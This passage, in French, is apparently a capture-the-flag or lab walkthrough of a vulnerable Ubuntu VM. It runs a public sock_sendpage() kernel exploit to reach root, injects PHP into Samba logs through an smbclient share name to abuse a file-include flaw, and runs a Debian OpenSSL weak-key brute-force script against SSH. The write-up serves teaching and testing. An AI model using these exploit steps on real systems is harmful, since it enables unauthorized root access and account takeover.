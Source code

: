 On récupère un exploit pour passer root. Ici [un exploit pour sock\_sendpage() qui utilise la présence de PulseAudio sur le système](http://www.exploit-db.com/exploits/9641/) :  

```plain
vmware@ubuntuvm:~$ tar zxvf 2009-linux-sendpage3.tar.gz 
linux-sendpage3/
linux-sendpage3/sesearch-mmap_zero
linux-sendpage3/run
linux-sendpage3/exploit-pulseaudio.c
linux-sendpage3/exploit.c
linux-sendpage3/runcon-mmap_zero
vmware@ubuntuvm:~$ cd linux-sendpage3/
vmware@ubuntuvm:~/linux-sendpage3$ ls
exploit.c  exploit-pulseaudio.c  run  runcon-mmap_zero  sesearch-mmap_zero
vmware@ubuntuvm:~/linux-sendpage3$ ./run
# id
uid=0(root) gid=0(root) groups=4(adm),20(dialout),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),104(scanner),111(lpadmin),112(admin),1000(vmware)
```

Que demander de plus ?  

After-pwn
---------

J'ai tout de même jeté un oeil sur les fichiers de logs pour voir si on pouvait aller plus loin avec la faille include() et... on ne pouvait pas car les accès sont tous trop restreints.  

Toutefois, admettons que les logs de Samba fussent lisible on aurait d'abord remarqué que leur nom contient l'adresse IP ou le nom d'hôte du client (comme indiqué dans */etc/samba/smb.conf*) :  

```plain
# This tells Samba to use a separate log file for each machine
# that connects
   log file = /var/log/samba/log.%m
```

Il aurait alors été possible d'injecter du PHP dans les logs en faisant appel à un partage inexistant :  

```plain
$ smbclient -I 192.168.1.27  '//UBUNTUVM/<?php phpinfo(); ?>' -U "" -N
```

Finalement l'inclusion aurait fonctionné avec le fichier */var/log/samba/log.192.168.1.3*.  

Additionnellement, je suis passé à côté de [la faille d'implémentation d'*OpenSSL* par *Debian*](https://en.wikipedia.org/wiki/OpenSSL#Vulnerability_in_the_Debian_implementation).  

Pour faire court, cette faille permet de retrouver une clé privée valide à partir de la base limitée de clés que le générateur d'aléa cassé peut générer.  

Un exmple sera plus parlant. On trouve [un exploit en Python sur exploit-db](http://www.exploit-db.com/exploits/5720/) :  

```plain
$ python bkeys.py

-OpenSSL Debian exploit- by ||WarCat team|| warcat.no-ip.org
./exploit.py <dir> <host> <user> [[port] [threads]]
    <dir>: Path to SSH privatekeys (ex. /home/john/keys) without final slash
    <host>: The victim host
    <user>: The user of the victim host
    [port]: The SSH port of the victim host (default 22)
    [threads]: Number of threads (default 4) Too big numer is bad

$ python bkeys.py rsa/2048/ 192.168.1.27 obama 

-OpenSSL Debian exploit- by ||WarCat team|| warcat.no-ip.org

Tested 214 keys | Remaining 32554 keys | Aprox. Speed 42/sec
```